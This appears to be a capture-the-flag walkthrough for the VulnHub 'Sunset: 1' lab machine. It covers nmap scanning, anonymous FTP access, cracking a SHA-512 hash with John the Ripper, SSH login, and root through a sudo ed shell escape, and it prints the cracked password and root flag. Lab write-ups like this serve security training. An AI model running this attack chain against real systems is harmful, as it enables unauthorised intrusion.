









# 🖥️ Sunset: 1 — VulnHub Walkthrough

## 📌 Introduction
This walkthrough covers the Sunset: 1 machine from VulnHub. It demonstrates enumeration, FTP misconfiguration, credential extraction, password cracking, and privilege escalation.

## 🎯 Objective
- Enumerate the target machine  
- Gain initial access  
- Escalate privileges to root  

## 🛠️ Tools Used
- Nmap  
- FTP  
- Hashid  
- John the Ripper  
- SSH  

## 🔍 Reconnaissance
I started by scanning the target machine to identify open ports and services.

```bash
nmap -A -T4 10.0.2.6
```

The scan revealed:
- 21/tcp (FTP) → Anonymous login allowed  
- 22/tcp (SSH) → Open  



## 📂 FTP Enumeration
Since FTP allows anonymous login, I accessed it:

```bash
ftp 10.0.2.6
```

Login credentials:
```
Username: anonymous
Password: anonymous
```

After logging in, I found a backup file containing sensitive data.



## 🔐 Credential Discovery
I downloaded and inspected the backup file. It contained:
- A username  
- A password hash  



## 🔎 Hash Identification
To identify the hash type:

```bash
hashid '$6$$4NccGQWPfiyfGKHgyhJBgiadOlP/FM4.Qwl1yIWP28ABx.YuOsiRaiKKU.4A1HKs9XLXtq8qFuC3W6SCE4Ltx/'
```

Result:
- SHA-512 Crypt  



## 💥 Password Cracking
I used John the Ripper with the rockyou wordlist:

```bash
john backup --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt
```

Result:
```
sunset:cheer14
```



## 🔑 Initial Access (SSH)
Using the cracked credentials:

```bash
ssh sunset@10.0.2.6
```

Login was successful.



## ⚙️ Privilege Enumeration
I checked sudo permissions:

```bash
sudo -l
```

Output:
```
(root) NOPASSWD: /usr/bin/ed
```



## 🚀 Privilege Escalation
Using ed for privilege escalation:

```bash
sudo ed
!/bin/sh
```

Verify:

```bash
whoami
```

Output:
```
root
```



## 🏁 Root Flag
```
25d7ce0ee3cbf71efbac61f85d0c14fe
```



## 🧠 Key Takeaways
- Always check for anonymous FTP access  
- Backup files may contain sensitive credentials  
- Identifying hash types is crucial before cracking  
- Weak passwords are easily exploitable  
- Misconfigured sudo permissions can lead to full system compromise  

## 🏆 Conclusion
Sunset: 1 is a beginner-friendly machine that highlights real-world misconfigurations and common attack paths. It is an excellent lab for practicing enumeration, credential cracking, and privilege escalation techniques.